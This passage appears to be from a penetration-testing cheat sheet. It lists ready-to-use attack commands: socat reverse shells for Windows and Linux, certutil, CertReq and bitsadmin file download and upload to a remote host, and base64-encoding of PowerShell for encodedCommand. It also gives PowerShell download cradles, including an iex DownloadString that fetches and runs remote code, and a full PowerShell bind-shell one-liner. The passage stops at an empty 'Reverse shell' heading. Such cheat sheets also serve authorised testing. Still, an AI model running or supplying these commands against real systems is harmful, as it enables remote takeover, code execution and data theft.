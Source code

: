 #### Reverse shell

```
socat TCP4:<ip>:<port>,fork EXEC:cmd.exe,pipes            #remote windows
socat TCP4:<ip>:<port>,fork EXEC:/bin/bash                #remote linux
socat -dd TCP4-LISTEN:<port> STDOUT                       #local
```

## CMD

#### File transfer

Download

```
cmd.exe /c certutil.exe -urlcache -split -f http://<ip>/<file> <local path>
cmd.exe /c certutil.exe -verifyctl -f -split http://<ip>/<file> <local path>
cmd.exe /c CertReq -Post -config https://<ip> c:\windows\win.ini <local path>
cmd.exe /c bitsadmin /transfer downloadjob /download /priority high <url> <local path>
```

Upload

```
cmd.exe /c CertReq -Post -config https://<ip> <file> and show response in terminal
```

## Powershell

#### Generate Base64 code

```
echo "<code>" | iconv -t utf-16le | base64 -w 0
powershell -encodedCommand <b64 code>
```

#### Download file

```
powershell -c "Invoke-WebRequest -URI '<ip>/<file>' -OutFile '<path>'"
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<ip>/<file>','C:\<path>')"
iex (New-Object System.Net.Webclient).DownloadString('https://<path>.ps1')
```

#### Bind shell

```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('<ip>',<port>);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

#### Reverse shell
